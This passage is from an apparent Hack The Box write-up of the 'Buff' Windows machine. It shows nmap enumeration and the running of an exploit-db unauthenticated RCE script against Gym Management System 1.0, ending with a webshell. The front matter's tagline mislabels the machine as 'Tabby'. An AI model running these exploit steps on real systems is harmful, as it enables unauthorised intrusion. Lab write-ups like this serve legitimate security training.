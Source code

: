 ```yaml
---
layout: single
title: "Hack The Box Write-up #6 : Buff"
excerpt: "Writeup for Buff, a windows machine provided by HacktheBox."
date: 2020-11-22
toc: true
toc_sticky: true
header:
  tagline: "Writeup for Tabby , a machine provided by HacktheBox."
  overlay_image: /assets/images/background.jpg
  overlay_filter: 0.5
  actions:
    - label: "Learn More"
      url: "https://www.hackthebox.eu/home/machines/profile/263"
  teaser: /assets/images/buff-writeup/buff.png
  teaser_home_page: true
  
categories:
  - hackthebox
tags:  
  - windows
  - cve
  - rce
  - buffer-overflow
  - CloudMe
---
```



## Summary
Buff is an easy Windows machine provided by egotisticalSW on hackthebox. We are provided with a vulnerable **Gym Management System** for the initial Foothold where we use a RCE vulnerability to gain a low-privileged shell. For root We exploit a target (**CloudMe**) which is vulnerable to Buffer Overflow.

## Enumeration
Using our very first usual information , which is the machine's IP , we begin to enumerate with a **nmap** scan

### nmap

```sh
root@kali:~# nmap -sC -sV -T4 10.10.10.198
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-22 15:46 CET
Nmap scan report for 10.10.10.198
Host is up (0.078s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.05 seconds
```
Only one port open , **8080** which appears to be a WebServer holding the title : **mrb3n's Bro Hut**.

### Webpage

The webpage represents somewhat of a fitness page with a login option.

![webpage](githuburl)

Clicking on **Contact** button reveals useful information.
The website has been built using **Gym Management Software 1.0** :

![contact](githuburl)

While searching the software on **exploitdb** We find a RCE vulnerability ...

![webpage](githuburl)

I am going to use the 4th exploit which appears to be an **Unauthenticated Remote Code Execution** Vulnerability.

```sh
root@kali:~# searchsploit -m /usr/share/exploitdb/exploits/php/webapps48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/48506.py


root@kali:~# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

I have gained an initial shell which is somewhat unstable and not very helpful for lateral movement so I'm going to upload netcat and grab myself a stable shell.

